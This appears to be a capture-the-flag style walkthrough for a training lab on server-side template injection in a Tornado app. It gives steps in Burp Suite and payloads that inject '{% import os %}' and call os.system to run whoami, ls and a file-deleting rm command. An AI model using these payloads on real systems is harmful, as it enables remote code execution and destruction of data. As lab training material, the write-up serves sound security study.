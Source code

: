 # Lab: Basic server-side template injection (code context)

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

{% hint style="info" %}
Take a closer look at the "preferred name" functionality.
{% endhint %}

## Steps

* Open Burp Suite and visit the target website
* Login using wiener:peter as username and password
* Change the Preferred name to First name and click on Submit
* Send the request to repeater
* In the Repeater tab change the `blog-post-author-display` parameter to `user.first_name}}{%25+import+os+%25}{{os.system('whoami')`
* Use the below payloads to solve the lab

```
user.first_name}}{%25+import+os+%25}{{os.system('ls')

user.first_name}}{%25+import+os+%25}{{os.system('rm morale.txt')
```

* Congrats! You have solved the lab.

